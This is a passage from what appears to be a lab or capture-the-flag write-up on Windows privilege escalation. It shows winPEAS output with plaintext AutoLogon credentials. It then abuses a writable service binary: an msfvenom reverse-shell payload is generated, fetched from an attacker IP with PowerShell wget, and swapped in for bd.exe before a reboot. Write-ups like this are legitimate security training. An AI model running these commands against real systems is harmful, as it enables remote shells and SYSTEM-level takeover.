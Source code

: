 ## Privilege Escalation

### WinPEAS --> Insecure Service Binary

I ran `winPEAS.exe` to enumerate for me. Firstly, we can find some credentials:

```
Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  Jerren
    DefaultPassword               :  CatastropheToes54
```

We can also find a possible service to exploit:

<figure><img src="../../../.gitbook/assets/image (88) (1).png" alt=""><figcaption></figcaption></figure>

It appears that can modify `bd.exe`:

```
C:\bd>icacls bd.exe
icacls bd.exe
bd.exe BUILTIN\Administrators:(I)(F)
       NT AUTHORITY\SYSTEM:(I)(F)
       BUILTIN\Users:(I)(RX)
       NT AUTHORITY\Authenticated Users:(I)(M)
```

This is a Windows Service, so it is run by the SYSTEM user. We can make use of this by overwriting the file with our own reverse shell. First, generate our reverse shell payload:

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.161 LPORT=443 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

Then, we can replace the `bd.exe` file and then restart the machine:

```
C:\bd>move bd.exe old.exe
move bd.exe old.exe
        1 file(s) moved.

C:\bd>powershell -c wget 192.168.45.161:8000/shell.exe -Outfile bd.exe

C:\bd>shutdown -r 
```
